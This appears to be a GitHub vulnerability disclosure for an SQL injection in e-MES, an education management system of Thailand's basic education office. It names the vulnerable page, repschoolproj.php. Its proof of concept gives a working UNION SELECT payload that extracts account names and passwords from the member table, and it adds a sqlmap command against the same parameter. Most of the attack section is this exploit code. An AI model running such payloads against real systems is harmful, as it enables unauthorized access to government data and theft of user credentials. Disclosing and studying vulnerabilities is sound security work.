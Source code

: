 `Describe：`
E-mes is an education management system of Thailand's basic education department. It has a serious SQL injection vulnerability, through which many sensitive information in the database can be obtained. This affects the whole e-mes version. As this is a system of the Thai government department, it can't be found on GitHub for the time being,I found a usage document in the government affairs section.

`Official documents`
>https://www.br2.go.th/attachments/article/2902/%E0%B9%81%E0%B8%9A%E0%B8%9A%E0%B8%A3%E0%B8%B2%E0%B8%A2%E0%B8%87%E0%B8%B2%E0%B8%99%E0%B8%82%E0%B9%89%E0%B8%AD%E0%B8%A1%E0%B8%B9%E0%B8%A5%E0%B9%83%E0%B8%99%E0%B8%A3%E0%B8%B0%E0%B8%9A%E0%B8%9A%20e-MES.pdf

`Attack Vectors`
> A SQL injection vulnerability exists in the school information query interface (repschoolproj.php) of the EMS system of the Office of the Thai Basic Education Commission, which can lead to important data leakage.This website is owned by the Thai government, and if it is not repaired in time, it may lead to information leakage.

`POC:` 
> http://localhost/eme/repschoolproj.php?claster=school&idarea=648 repschoolproj.php?claster=school&idarea=648  /** /uNiOn select/* */ 1,1,user,1,1,1,1,1,2,3,4,5,6,7,1,1,9,10,passwd,12,13,1,1,1,1,user(),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from member#  
> This exp can get the login account and password of the e-mes system  
`photo proof`
![图片](https://user-images.githubusercontent.com/110643835/188271982-779a174a-41e3-47dd-b9eb-3ed62e59b4bb.png)
![图片](https://user-images.githubusercontent.com/110643835/188272051-c3890348-ee21-472e-b10e-2519c4ffd64a.png)


Or use sqlmap for injection
> POC: sqlmap.py -u "http://localhost/eme/repschoolproj.php?claster=school&idarea=648*"

